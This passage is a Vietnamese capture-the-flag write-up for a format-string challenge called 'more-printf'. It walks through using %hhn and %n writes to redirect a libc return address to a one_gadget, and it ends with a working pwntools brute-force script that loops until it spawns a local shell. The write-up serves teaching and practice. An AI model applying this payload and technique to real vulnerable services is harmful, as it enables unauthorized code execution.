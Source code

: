 - ta thấy trên stack có 1 địa chỉ stack trỏ đến chính nó , ta sẽ dùng `fsb` để ghi thằng này thành `0x7ffe440f0b28` là địa chỉ đang chứa stack , và sử dụng 1 số `magic` tính toán để ghi vào và thay đổi `0x7f17eaaf9151 (read+17)` thành `one_gadget`  

![image](https://hackmd.io/_uploads/BkdYTlTTyg.png)

`%c%c%c%5c%hhn%*8$d` cái này sẽ in ra 8 byte và ghi vào offset thứ 5 , sau đó in số lượng của `libc_start_main`

- ta sẽ chọn `og` thứ hai `0x4f3d5` 

![image](https://hackmd.io/_uploads/SJb-yZaTyx.png)

- lúc này địa chỉ base của libc là `0x7f7935d5a000` , và địa chỉ libc_start_main là `0x7f7935d7bbf7` , địa chỉ cần ghi sẽ là `0x7f7935d5a000` + `0x4f3d5` = `0x7f7935da93d5`  , vậy số byte cần ghi là 

![image](https://hackmd.io/_uploads/Hkzgl-66yl.png)

- trừ 8 vì trước đó đã in ra 8 byte

- ta có thể thấy được bây giờ nó đã ghi thành công , nhưng nó chưa ghi đúng vào vị trí ta cần , vì vậy sẽ cần 1 tí brute-force

![image](https://hackmd.io/_uploads/ryD4bb661l.png)

- như ta thấy bây giờ nó đã ghi thành công , tại `0x7fffe0a37908` chứa địa chỉ `og` của ta 

![image](https://hackmd.io/_uploads/ryICM-pTJx.png)


script

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./more-printf_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe

#gdb.attach(p,gdbscript='''
#           b*main+193
#            b*fprintf+143
#            c
#           ''')

num_of_tries = 0
while True:
    try:
        sleep(0.5)
        p = process()
        num_of_tries += 1

        p.sendline('%c%c%c%5c%hhn%*8$d%186326c%5$n')
        p.sendline('id')
        p.unrecv(p.recvn(1, timeout=3))

        print(f"Got shell after {num_of_tries} tries")
        break
    except EOFError:
        pass
p.interactive()
```